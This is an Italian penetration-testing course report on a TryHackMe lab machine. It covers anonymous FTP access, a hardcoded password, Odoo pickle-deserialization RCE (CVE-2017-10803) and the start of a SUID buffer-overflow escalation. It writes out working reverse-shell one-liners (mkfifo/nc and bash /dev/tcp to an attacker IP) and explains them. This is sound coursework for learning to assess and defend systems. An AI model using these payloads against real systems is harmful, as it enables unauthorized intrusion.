## Table of Contents

### [Executive Summary](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#executive-summary)  
### [Summary of Results](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#summary-of-results)  

### [Attack Narrative](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#attack-narrative)  
#### [Remote System Discovery](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#remote-system-discovery)  
#### [Anonymous FTP Login & Files Disclosure](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#anonymous-ftp-login--files-disclosure)  
#### [Login as Admin](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#login-as-admin)  
#### [Reverse Shell as odoo User](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#reverse-shell-as-odoo-user)  
#### [Privilege Escalation to root](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#privilege-escalation-to-root)  
#### [Lateral Movement](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#lateral-movement)  
#### [Privilege Escalation on Second Machine](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#privilege-escalation-on-second-machine)  

### [Conclusion](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#conclusion)  
#### [Recommendations](https://github.com/Xernary/vapt-project/tree/master?tab=readme-ov-file#recommendations)


# Progetto VAPT

Nome: Nicola Giuffrida
Università: Università degli Studi di Catania
Corso: Vulnerability Assessment and Penetration Testing
Professore: Sergio Esposito
Data: 20/06/2025

## Executive Summary

Per fare quest'attività di VAPT mi sono basato sulla metodologia PTES. In particolare sono state seguite le fasi di Vulnerability Analysis, Exploitation, Post Exploitation e Reporting. 
Nella fase di Vulnerability Analysis ho ricercato, tramite scan passivo e attivo, le vulnerabilità presenti sul target. Durante l'Exploitation ho costruito exploits che mi hanno permesso di sfruttare le vulnerabilità trovate, e ho ripulito il target e le altre macchine violate da exploits e file utilizzati. Infine durante la fase di Reporting ho scritto questa relazione, composta da una parte tecnica (Attack Narrative) che spiega gli attacchi nel dettaglio e da un Executive Summary che tratta la gravità e l'impatto delle vulnerabilità trovate, classificandole.

### Summary of Results

La Discovery iniziale ha portato alla luce un servizio FTP in cui è possibile effettuare un login tramite utente Anonimo, quindi senza password. Tale accesso rivela un eseguibile usato per cambiare password che una volta analizzato rivela l'employee id che mi ha permesso di ottenere la password di un utente admin sul sito web hostato. Quest'ultimo utilizza una versione Odoo vulnerabile a Remote Code Execution (CVE-2017-10803). Exploitare questa vulnerabilità mi ha permesso di ottenere un accesso diretto alla macchina. Una volta dentro ho exploitato un eseguibile SUID vulnerabile a ret2win per ottenere privilegi di root. Questo mi ha permesso poi di fare movimento laterale verso una seconda macchina (locale a quella exploitata) tramite exploitation dello stesso eseguibile, che la macchina espone su una porta. Su questa macchina ho anche trovato delle chiavi ssh private e pubbliche che mi hanno permesso un più rapido accesso alla macchina stessa e mi sono state molto utili per sfruttare la vulnerabilità successiva. Infatti oltre alle chiavi era presente un eseguibile SUID vulnerabile a ret2libc, che una volta exploitato mi ha garantito accesso come root sulla seconda macchina.

In totale sono state riscontrate 9 vulnerabilità, delle quali ne elenco risk score e impatto:


fonte per CWE: https://cwe.mitre.org/data/definitions/1003.html

| Nome vulnerabilità               | Gravità | CVE            | CWE      | Impatto                                                                                      |
| -------------------------------- | ------- | -------------- | -------- | -------------------------------------------------------------------------------------------- |
| Anonymous FTP Login              | Alto    | CVE-1999-0497  | CWE-200  | Accesso non autenticato, disclosure di file sensibili                                        |
| Cookie senza HttpOnly            | Medio   | -              | CWE-1004 | Session hijacking quindi possibile attacco all'autenticazione di utenti                      |
| FTP Login in chiaro              | Medio   | -              | CWE-319  | Intercettazione credenziali                                                                  |
| TCP/ICMP timestamp reply         | Basso   | CVE-1999-0524  | CWE-200  | Raccolta informazioni                                                                        |
| Hardcoded password in eseguibile | Alto    | -              | CWE-798  | Ottenimento password di admin/master password, ottenimento di dump del database              |
| Odoo Arbitrary File Upload       | Critico | CVE-2017-10803 | CWE-434  | Remote Code Execution, ottenimento di un accesso diretto alla macchina remota                |
| SUID ret2win exploit             | Critico | -              | CWE-120  | Privilege escalation (root) quindi ottenimento di elevati privilegi sulla macchina attaccata |
| Movimento laterale + ret2libc    | Critico | -              | CWE-120  | Ottenimento di un accesso diretto su una seconda macchina                                    |

</br>

## Attack Narrative

### Remote System Discovery

Una volta attivata la VPN e attivata la macchina target ho subito fatto uno scan via `nmap` dell'indirizzo della macchina target fornitomi da TryHackMe. 



Le porte 21 e 22 sembrano protette da login tramite password mentre la porta 80 hosta una server web basato su Odoo. 


Collegandomi a quest'ultimo servizio da browser vengo reindirizzato ad una pagina di login, quindi anche questo servizio è protetto tramite autenticazione.

### Anonymous FTP Login & Files Disclosure

Per prima cosa ho provato a verificare se qualche parametro dell'URL del sito web fosse vulnerabile a sql injection. Ho avviato degli scan con `sqlmap` su vari parametri che ho trovato ma nessuno è risultato vulnerabile. 
Uno dei vari tentativi che ho fatto è stato sul parametro 'master_pwd' nel form di cambio password:




Ho inoltre effettuato uno scan tramite `OpenVAS` che ha rivelato numerose vulnerabilità, la maggior parte poco utili.





Le tre vulnerabilità con severity low riguardano principalmente la disclosure di timestamp, quindi il loro impatto e la loro utilità è molto bassa. "Weak MAC Algorithms" invece riguarda l'utilizzo di algoritmi di MAC vulnerabili su SSH, che anche in questo caso risulta poco utile. Più gravi sono invece le vulnerabilità con severity medium. "Missing HttpOnly Cookie Attribute" come dice il nome riguarda l'assenza dell'attributo HttpOnly relativo al Cookie. Questo implica che qualunque script javascript può accedere al Cookie di sessione. Nel caso il sito web sia vulnerabile a XSS, un attaccante pottebbe ottenere il Cookie di un utente e quindi autenticarsi come esso. "FTP Unencrypted Cleartext Login" indica invece che le credenziali di autenticazione a FTP sono trasmesse in chiaro. Ciò significa che un attaccante (con accesso alla rete interna) può fare sniffing del traffico di rete e ottenere le credenziali utilizzate dagli utenti che effettuano il login.

Fatto questo mi sono concentrato sulla porta 21. Ho provato a collegarmi e dopo alcuni tentativi sono riuscito a effettuare il login tramite utente Anonimo, il quale non richiede password.



Dopo una rapida analisi ho trovato due file - `notice.txt` e `password` - che ho trasferito sulla mia macchina.



Il file di testo contiene il seguente:

```
From antisoft.thm security,


A number of people have been forgetting their passwords so we've made a temporary password application.
```

mentre password è un eseguibile non-stripped.

### Login as Admin

Dopo una esecuzione del programma ho capito che si tratta dell'applicazione citata nel file di testo e quindi permette di cambiare password fornito un certo `employee id`.
Ho quindi analizzato l'ELF tramite `Ghidra` e ho appurato che l'eseguibile presenta solo due funzioni: main e pass.



Il main chiama semplicemente la funzione pass, che è quella più interessante.



La funzione pass verifica che la stringa passata (che io ho rinominato a employee_id) sia uguale ad un valore hard-coded ed in chiaro, che una volta dato come input al programma mi ha permesso di ottenere una password.



Tornando alla schermata del sito web sulla porta 80 e cliccando su "Manage Database" si viene reindirizzati su una pagina differente.



Da qui è possibile scaricare una copia del database se si conosce la "Master Password". Ho provato quella trovata tramite il programma password e sono riuscito a scaricare un backup del database che consiste in 3 file:


Analizzando `manifest.json` ho trovato che la versione di Odoo è la 10.0


e dopo una rapida ricerca sul web ho trovato che tale versione presenta una nota vulnerabilità, la `CVE-2017-10803`.


Tale vulnerabilità risiede in un modulo di Odoo che si occupa di anonimizzare il database. Il modulo, se presente, utilizza una libreria python chiamata Pickle. Ipotizziamo che un admin del database lo anonimizzi tramite il modulo di Odoo; quello che succede è il seguente:
- Il modulo al suo interno fa utilizzo di una funzione della libreria python Pickle che prende in input un oggetto qualsiasi e lo converte in un file pickle serializzato (tale oggetto può essere una rappresentazione del database).
- Una volta creato il backup il database viene anonimizzato.
- Al contrario, se l'admin vuole de-anonimizzare un database ha bisogno del file .pickle per deserializzarlo.

La funzione `pickle.load()` che si occupa di leggere il file .pickle e convertirlo in un oggetto in memoria è vulnerabile ad Arbitrary Code Execution. Questo avviene perchè se l'oggetto che è stato serializzato aveva ad esempio un costruttore, allora tale costruttore viene eseguito quando il file viene deserializzato, perchè la funzione load() non fa altro che eseguire le istruzioni che permettono il caricamento dell'oggetto in memoria nello stesso stato in cui era quando è stato serializzato, e per fare ciò deve crearne uno nuovo tramite il costruttore e quindi eseguire codice presente nel file .pickle.

Arrivato a questo punto però mi serviva un modo per bypassare il login della schermata Odoo. Per avere piu informazioni sul modulo Odoo vulnerabile e potere anonimizzare il database ho infatti bisogno di accedere al pannello di controllo, probabilmente protetto proprio da questo login.

Cercando dentro il file `dump.sql` trovato in precedenza e cercando la stringa "admin" ho trovato quello che sembra essere un indirizzo email di amministratore:


Inserendolo come nome utente assieme alla password utilizzata in precedenza sono riuscito ad effettuare il login all'interno del pannello di controllo.

### Reverse Shell as odoo User



Ho quindi installato il modulo vulnerabile e dopo aver anonimizzato il database e aggiornato la pagina, faccio l'operazione inversa - ovvero la deanonimizzazione - fornendo un file .pickle da me creato.



Per creare il file .pickle ho modificato un payload trovato online che crea un file .pickle che se deserializzato esegue una o più istruzioni arbitrarie.

Dopo aver provato vari comandi senza successo, ho creato un server PHP nella mia macchina in modo da poter verificare che il comando venga effettivamente eseguito dal server.





Una volta uploadato il file .pickle generato dallo script in figura sono riuscito ad ottenere un riscontro che il comando è stato eseguito con successo (in questo caso una richiesta GET sul mio server). 
Sono allora passato a cercare payload che creino una reverse shell sul server, e dopo ancora altri tentativi ho trovato un payload funzionante, anche se può sembrare complicato da capire a primo impatto:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.3.9 9999 > /tmp/f
```
fonte: https://www.invicti.com/learn/reverse-shell

Il funzionamento del payload è il seguente:
- `rm /tmp/f`: rimuove il file /tmp/f se già presente
- `mkfifo /tmp/f`: crea il file FIFO /tmp/f
- `cat /tmp/f|sh -i 2>&1|nc 10.9.3.9 9999 > /tmp/f`: reindirizza tutto ciò che viene scritto sul file FIFO ad una shell che a sua volta reindirizza il suo output come input per netcat connesso alla macchina dell'attaccante, l'output di netcat viene poi reindirizzato al file FIFO.

Questa serie di comandi permette di creare una reverse shell tramite netcat, con il file FIFO che fa da tramite di input/output tra la shell e netcat. La FIFO funge quindi da reindirizzatore che collega la shell spawnata alla connessione netcat - ovvero all'attaccante.
I payload piu semplici che ho provato precedentemente (come `bash -i >& /dev/tcp/10.9.3.9/9999 0>&1`) non funzionavano perchè il server utilizza sh come shell e non bash.





Dopo aver uploadato e utilizzato il file .pickle contenente il payload per deanonimizzare il database sul server ottengo una shell come utente `odoo`, e trovo così la mia prima flag.

### Privilege Escalation to root

Dalla reverse shell ottenuta ho cercato degli eseguibili `SUID` per elevare i miei privilegi.


Tutti gli eseguibili sembrano standard tranne `ret`. L'ho quindi trasferito sulla mia macchina locale facendo una POST via `curl` (che ho trovato installato) dalla macchina target verso un server PHP che hostato sulla mia macchina. L'analisi ha rivelato che si tratta di un ELF a 64 bit non-stripped e con PIE e Canary disabilitati.



Il mio prossimo passo è stato quello di analizzare l'eseguibile staticamente tramite Ghidra. L'ELF presenta 2 funzioni oltre al main: vuln e win. I nomi di entrambe fanno già intuire di che tipo di funzioni si tratti, e infatti dopo averne osservato il codice è proprio così.





Il main chiama la funzione vuln che stampa a schermo un messaggio e poi prende un input dall'utente tramite `gets`, mentre win non viene mai chiamata e al suo interno chiama la funzione `system` che spawna una shell. Come indicano i nomi, vuln è vulnerabile e può essere sfruttata per forzare il programma a chiamare win e quindi ottenere una shell con permessi di root visto che ret ha SUID abilitato. La vulnerabilità risiede nell'uso della funzione ormai deprecata gets che legge un input fino ad un carattere newline o EOF, senza fare alcun controllo se la dimensione della stringa supera quella del buffer allocato (`local_88` in figura). Questo check mancante permette di fare overflow dell'input al di fuori del buffer allocato, su altre aree di memoria dello stack, come il `Return Address`. Se esso viene sovrascritto da un altro indirizzo arbitrario, non appena la funzione vuln esegue l'istruzione return il programma esegue una pop di Return Address sul registro RIP che indica la prossima istruzione da eseguire. Essendo che tale valore è controllabile è quindi possibile controllare l'esecuzione del programma e far eseguire, ad esempio, la funzione vuln.



Ho confermato quello visto tramite analisi statica eseguendo ret con un input maggiore di 128 caratteri che è la grandezza del buffer indicata da Ghidra. Infatti se viene inserito un input di grandi dimensioni il programma termina in Segmentation Fault, indice che un `BOF` è avvenuto.

Per exploitare tutti gli eseguibili vulnerabili trovati ho utilizzato `pwntools`. E' una suite di tool molto utile per fare analisi ed exploting di file binari. Per questa attività ho utilizzato i tool `pwninit` e `pwndbg`. Il primo fornisce comandi e librerie utili per facilitare la creazione di script che interagiscono con l'eseguibile e effettuano gli exploit, mentre pwndbg è un debugger identico a gdb ma con funzionalità aggiuntive.



Col seguente comando ho creato il file solve.py che funge da template iniziale dello script. 
Ho poi analizzato l'eseguibile tramite `pwndbg` per trovare l'indirizzo della funzione win.

